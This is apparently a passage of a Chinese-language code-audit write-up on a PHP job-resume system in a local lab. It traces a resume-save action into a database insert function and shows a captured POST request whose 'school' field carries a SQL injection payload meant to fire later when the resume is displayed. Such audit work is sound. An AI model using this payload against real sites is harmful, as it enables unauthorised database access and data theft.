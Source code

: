 ```plain
找到相对应的文件（user/personal/personal_resume.php），进行代码分析，找make4相对应的代码：
```

![1645405052977-0fe06316-6f5a-4a45-a793-ba44c70455e5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104867-271564655.png)

```plain
保存触发的URL：http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4_save
抓取分析保存数据包：
POST /user/personal/personal_resume.php?act=make4_save HTTP/1.1
Host: 127.0.0.1:8092
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4&pid=2
Cookie: UM_distinctid=17e46c24838315-027dd22377488f8-1262694a-144000-17e46c24839418; CNZZDATA3801251=cnzz_eid%3D1994470479-1641863151-%26ntime%3D1645228788; PHPSESSID=f5tif3dik5jv3u6cumfi7s3h45; QS[uid]=1; QS[username]=xiaodi; QS[password]=0e3c4f49d9f3efb5347d2841886f3f9c; QS[utype]=2; QS[pmscount]=1
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 182

start=2027%C4%EA1%D4%C2&endtime=2027%C4%EA1%D4%C2&school=xiaodi%27%2Caddress%3Duser%28%29%23&speciality=vgvjh&education_cn=%D6%D0%D7%A8&education=68&pid=2&disabledsubmit=%B1%A3%B4%E6
从URL进行分析，创建对应的URL为：http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4&pid=2
保存对应的URL为：http://127.0.0.1:8092/user/personal/personal_resume.php?act=make4_save
找到act=make4_save关键代码
```

![1645407031791-5450c35e-0190-4238-ad95-36fd65d32a5e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104948-245047354.png)

```plain
发现关键性代码inserttable自定义函数
```

![1645406910471-b761ed8f-5800-4d9e-a762-c843f01fc7f2.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133104224-1338836438.png)

```plain
改函数插入的表为resume_education，进一步在数据库中追踪，可以发现插入在学校的数据写在了resume_education表中。
```

![1645407158291-f4bb370a-a900-4082-b6f9-69c3184bbc6f.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133103853-1680858563.png)

```plain
先插入学校名称，在写了resume_education表里面。
接下来我们分析查看简历页面：http://127.0.0.1:8092/resume/resume-show.php?id=2
对resume-show.php代码进行分析，分析到调佣模块运行的。
```

![1645407462384-0946898a-40fa-465e-921d-7478ec2175ba.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912133105083-1872973985.png)
